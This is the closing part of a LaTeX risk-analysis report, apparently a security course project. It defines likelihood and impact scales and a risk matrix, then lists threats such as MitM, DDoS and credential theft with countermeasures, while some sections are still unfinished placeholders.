High   & The threat source is highly motivated and sufficiently capable of exploiting a given vulnerability in order to change the asset's state. The controls to prevent the vulnerability from being exploited are ineffective. \\
\hline
Medium & The threat source is motivated and capable of exploiting a given vulnerability in order to change the asset's state, but controls are in place that may impede a successful exploit of the vulnerability. \\
\hline
Low   & The threat source lacks motivation or capabilities to exploit a given vulnerability in order to change the asset's state. Another possibility that results in a low likelihood is the case where controls are in place that prevent (or at least significantly impede) the vulnerability from being exercised. \\
\hline
\end{tabular}
\hspace{3em}
\begin{tabular}{|l|p{0.8\textwidth}|}
\hline
\multicolumn{2}{|c|}{\bf Impact} \\
\hline
Impact & Description \\
\hline
\hline
High   & The event (1) may result in a highly costly loss of major tangible assets or resources; (2) may significantly violate, harm, or impede an organization's mission, reputation, or interest; or (3) may result in human death or serious injury. \\
\hline
Medium & The event (1) may result in a costly loss of tangible assets or resources; (2) may violate, harm, or impede an organization's mission, reputation, or interest, or (3) may result in human injury. \\
\hline
Low   & The event (1) may result in a loss of some tangible assets or resources or (2) may noticeably affect an organization's mission, reputation, or inter- est. \\
\hline
\end{tabular}
\end{center}

\vspace{5mm}

\begin{center}
\begin{tabular}{|l|c|c|c|}
\hline
\multicolumn{4}{|c|}{{\bf Risk Level}} \\
\hline
{{\bf Likelihood}} & \multicolumn{3}{c|}{{\bf Impact}} \\ %\cline{2-4}
     & Low & Med & High \\  \hline
 High & Low & Med & High  \\
\hline
 Med & Low & Med & Med \\
\hline
 Low & Low & Low & Low \\
\hline
\end{tabular}
\end{center}

\subsection{Risk Evaluation}

% List all potential threats and the corresponding countermeasures. Estimate the risk based on the information about the threat, the threat sources and the corresponding countermeasure. Adhere to the risk definitions you have given above. As a sanity check, there should be at least one high-risk entry.

Potential threats and countermeasures with the inferred risk.
TODO: running numbers!!

\subsubsection{Physical Assets}
\textbf{Common} \\
\textbf{Servers} \\
\textbf{internet Connectivity} \\
\textbf{Internal Network} \\

\subsubsection{Logical Assets}



\subsubsection{Persons}
\subsubsection{Intangible Goods}

\begin{footnotesize}
\begin{prettytablex}{L}
No. & Threat &  Countermeasure(s) & L & I & Risk \\
\hline
1 & Expert Hackers: mount MitM attack to spy on and tamper with communications between Clients and WebServer. This allows the hackers to learn in particular a user's password and private keys. & HTTPs connection with Server side authentication & {\it Med} & {\it High} & {\it Med} \\
\hline
2 & Victim: resorts to Script Kiddies to launch DDoS attack on WebServer and cause damage, disruptions, maybe even ask money to stop & Simple DDoS protection like SYN cookies against syn flood & {\it High} & {\it High} & {\it High} \\
\hline
\end{prettytablex}
\end{footnotesize}

\begin{footnotesize}
\begin{prettytablex}{L}
No. & Threat &  Countermeasure(s) & L & I & Risk \\
\hline
1 & Hardware Failures: cause damages to the hard drives and privite CA key and certificate can't be recovered. &  & {\it Low} & {\it Med} & {\it Low} \\
\hline
\end{prettytablex}
\end{footnotesize}

\begin{footnotesize}
\begin{prettytablex}{L}
No. & Threat &  Countermeasure(s) & L & I & Risk \\
\hline
1 & User: exploits physical access to Backup Machine and obtains backup data. & Physical protection of System Components, Disk Encryption & {\it Low} & {\it Med} & {\it Low} \\
\hline
\end{prettytablex}
\end{footnotesize}

\begin{footnotesize}
\begin{prettytablex}{L}
No. & Threat &  Countermeasure(s) & L & I & Risk \\
\hline
1 & Expert Hacker: steals System Administrator credentials & Enforce Strong Passwords, Increase security sensibilization/awareness & {\it Med} & {\it High} & {\it Med} \\
\hline
2 & Organizatorial Deficiencies: illness or injury impede its work and the System is left unattended in case of problems/attacks & Good Documentation and making sure that not only one person knows the system & {\it High} & {\it Med} & {\it Med} \\
\hline
\end{prettytablex}
\end{footnotesize}

\subsubsection{Risk Acceptance}

List all medium and high risks, according to the evaluation above. For each risk, propose additional countermeasures that could be implemented to further reduce the risks.

\begin{footnotesize}
\begin{prettytablex}{p{2cm}X}
No. of threat & Proposed additional countermeasure including expected impact  \\
\hline
... & ... \\
\hline
... & ... \\
\hline
\end{prettytablex}
\end{footnotesize}


\begin{thebibliography}{---}
\bibitem[1]{CompSec} Computer Security: Principles and Practice. William Stallings and Laurie Brown, Prentice Hall, 2008
\bibitem[2]{ASL_book} Applied Information Security: A Hands-on Approach, David Basin, Patrick Schaller and Michael Schl\"apfer, Springer, 2011
\end{thebibliography}

\end{document}

%%% Local Variables:
%%% mode: latex
%%% TeX-master: "../../book"
%%% End:
